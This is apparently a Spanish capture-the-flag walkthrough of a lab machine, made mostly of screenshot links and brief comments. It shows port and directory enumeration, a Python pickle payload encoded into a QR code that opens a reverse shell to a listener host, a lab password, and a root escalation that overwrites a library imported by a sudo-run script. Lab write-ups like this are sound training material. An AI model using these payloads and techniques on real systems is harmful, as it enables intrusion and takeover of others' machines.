
nmap -sn 192.168.56.0/24

nmap -sV -p- 192.168.56.117

Lanzamos el script para revisar los http
nmap -p- -sV --script=http-title,http-headers --min-rate 5000 192.168.56.117


En el puerto 5000 hay otro acceso

Revisamos primero el 80
tenemos unas extensiones

Buscamos directorios ocultos
gobuster dir -u http://192.168.56.117 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://192.168.56.117:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Es interesante el del backup


Esto nos da información en crudo de la 5000

podemos subir una imagen inyectada para obtener una shell con pickle


import pickle
import base64
import os
import qrcode
class Exploit(object):
def __reduce__(self):
# Comando de Reverse Shell apuntando a tu listener de Metasploit
cmd = "python3 -c 'import socket,subprocess,os;s=socket.socket
(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.10\",4444))
;os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
return (os.system, (cmd,))
payload = base64.b64encode(pickle.dumps(Exploit())).decode()
qrcode.make(payload).save("qr_exploit.png")




Subimos archivo


hay bastante ruido pero al menos vemos los archivos y directorios


aqui tenemos el backup que bajamos antes


no tenemos permisos

tenemos contraseña

creamos una shell para cambiar de usuario
python3 -c 'import pty; pty.spawn("/bin/bash")'


Ya tenemos la flag de user

Sin acceso a root obviamente

cat /etc/os-release

la primera prueba es si esta en el grupo de sudoers, pero en este caso no

con este comando podemos saber si tiene algun archivo de ejecucion permitido como root
echo "Tindaya2024!" | sudo -S -l

cd /opt/maxorata/

cat backup_etiquetas.py

como tenemos permisos root al ejecutar el python, le inyectamos que haga una shell con privilegios
echo 'import os; os.system("/bin/bash")' > /opt/maxorata/lib/qrutils.py

sudo python3 /opt/maxorata/backup_etiquetas.py

Ya tenemos la flag de root

{kind=link}